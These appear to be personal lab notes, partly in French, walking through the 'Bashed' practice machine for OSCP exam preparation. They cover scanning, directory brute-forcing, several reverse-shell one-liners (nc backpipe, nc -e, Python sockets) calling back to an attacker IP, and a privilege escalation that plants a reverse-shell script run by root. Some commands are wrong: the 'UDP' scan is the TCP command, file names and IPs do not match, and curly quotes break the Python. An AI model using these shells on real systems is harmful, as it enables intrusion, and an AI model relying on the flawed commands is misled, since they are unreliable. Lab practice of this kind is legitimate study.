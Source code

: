 ```yaml
---
title: "Offensive Security Certified Professional Exam Report"
author: ["your@mail.com", "OSID: XXXX"]
date: "2021-01-05"
subject: "Markdown"
keywords: [Markdown, Example]
subtitle: "OSCP Exam Report"
lang: "en"
titlepage: true,
titlepage-rule-color: "360049"
titlepage-rule-height: 2
titlepage-background: "backgrounds/background1.pdf"
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
```


# Bashed

https://ranakhalil101.medium.com/my-oscp-journey-a-review-fa779b4339d9

## Info
attacking machine 10.10.14.8
victim machine 10.129.37.105

mkdir nmap

## easy scan
```
sudo nmap -sC -sV -O -oA nmap/initial 10.129.37.105
```

    -sC: run default nmap scripts
    -sV: detect service version
    -O: detect OS
    -oA: output all formats and store in file nmap/initial

## All port scan in tcp
```
sudo nmap -sC -sV -O -p1-65535 -oA nmap/full 10.129.37.105   

```

## All port scan in udp

```
sudo nmap -sC -sV -O -p1-65535 -oA nmap/full 10.129.37.105

```

## Brute force all directories
```
sudo apt install gobuster
gobuster dir -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.37.105

```

http://10.129.37.105/dev/phpbash.php

## identify the system
whoami
id
uname -a

## netcat

- on 42
nc -nlvp 4444

- on victim
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 10.10.14.8 4444 1>/tmp/backpipe

or
nc -nv 10.10.14.8 4444 -e /bin/sh

- alternative with Python
which python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## Find flag
cd /home/arrexel
cat user.txt


## more

sudo -l
-> scriptmanager nopasswd needed...

cd /
ls -la
on voit qu' il y a le repertoire scripts qui est scripmanager

sudo -i -u scriptmanager

pas besoin de mot de passe
cd /scripts
et on voit que l' on peut executer un script python

## Privilege escalation

create other.py
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.8”,5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

chmod 777 test.py

python -m SimpleHTTPServer 8000

sur la machine victime dans le repertoire de scripts
wget http://10.10.10.8:8000/test.py

apres lancer un autre nc
nc -lnvp 5555

qui lui sera executer en root
cd /root
cat root.txt


## A creuser

dans le pdf, lors de la premiere connexion sur nc 
python -c 'import pty; pty.spawn("/bin/bash");'
semble afficher le repertoire "dev" 
stty raw -echo
(desactive le retour)